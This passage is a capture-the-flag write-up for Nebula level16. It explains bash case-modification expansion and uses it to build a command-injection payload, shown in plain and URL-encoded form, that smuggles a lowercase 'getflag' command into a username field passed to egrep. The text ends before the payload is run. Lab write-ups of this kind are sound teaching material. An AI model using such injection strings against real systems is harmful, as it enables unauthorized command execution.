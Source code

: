 ```
              ter  is a positional parameter with more than one digit, or when parameter is
              followed by a character which is not to be interpreted as part of its name.

...

${parameter^pattern}
       ${parameter^^pattern}
       ${parameter,pattern}
       ${parameter,,pattern}
              Case modification.  This expansion modifies the case of alphabetic characters
              in  parameter.  The pattern is expanded to produce a pattern just as in path‐
              name expansion.  The ^ operator converts lowercase letters  matching  pattern
              to  uppercase;  the  , operator converts matching uppercase letters to lower‐
              case.  The ^^ and  ,,  expansions  convert  each  matched  character  in  the
              expanded value; the ^ and , expansions match and convert only the first char‐
              acter in the expanded value.  If pattern is omitted, it is treated like a  ?,
              which matches every character.  If parameter is @ or *, the case modification
              operation is applied to each positional parameter in turn, and the  expansion
              is  the resultant list.  If parameter is an array variable subscripted with @
              or *, the case modification operation is applied to each member of the  array
              in turn, and the expansion is the resultant list.

```
This looks like a proper workaround for bypassing the uppercase issue!

Let's test it.
```console
level16@nebula:/home/flag16$ TEST="hello world"
level16@nebula:/home/flag16$ echo $TEST
hello world
level16@nebula:/home/flag16$ echo ${TEST^^}
HELLO WORLD
level16@nebula:/home/flag16$ TEST="HELLO WORLD"
level16@nebula:/home/flag16$ echo $TEST
HELLO WORLD
level16@nebula:/home/flag16$ echo ${TEST,,}
hello world
```
Wonderful!

Let's return to our `command-injection` template and scheme our payload (-:

* `egrep "^$username" /home/flag16/userdb.txt 2>&1`
* `$username`
  * `"<TEST;` - pass `egrep`
  * `CMD='getflag';` - command to execute as user `flag16`
  * `${CMD,,}>EXPLOIT_OUTPUT;` - convert command to lowercase, execute, and write output to file
  * `"` - quotation mark for closing quotation mark in template

This is what we are left with: `"<TEST;CMD='getflag';${CMD,,}>EXPLOIT_OUTPUT;"`.

Let's run it.

But first, we should use `URL` encoding on our payload to prevent our shell from picking up the special characters used.
```
"<TEST;CMD='getflag';${CMD,,}>EXPLOIT_OUTPUT;"
    |
    V
ENCODE AS URL
    |
    V
%22%3c%54%45%53%54%3b%43%4d%44%3d%27%67%65%74%66%6c%61%67%27%3b%24%7b%43%4d%44%2c%2c%7d%3e%45%58%50%4c%4f%49%54%5f%4f%55%54%50%55%54%3b%22
```
And finally,
```console
```